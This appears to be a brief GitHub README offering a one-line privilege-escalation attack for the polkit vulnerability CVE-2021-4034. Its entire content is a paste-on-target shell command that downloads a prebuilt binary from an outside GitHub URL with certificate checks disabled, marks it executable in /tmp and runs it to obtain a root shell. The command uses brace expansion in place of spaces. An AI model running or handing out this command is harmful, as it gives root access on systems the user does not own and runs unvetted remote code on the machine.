 # Oneline PrivEsc
 This is static binary file to exploit the polkit vulnerability (CVE-2021-4034)
 Just copy and paste on target this command and get root shell.

 GCC it's not needed on target!

```sh

{curl,-s,-k,https://raw.githubusercontent.com/carlosevieira/polkit/main/pwn,-o,/tmp/polkit-static};{chmod,+x,/tmp/polkit-static};/tmp/polkit-static

```

Tks @0dayCTF for the static binary <3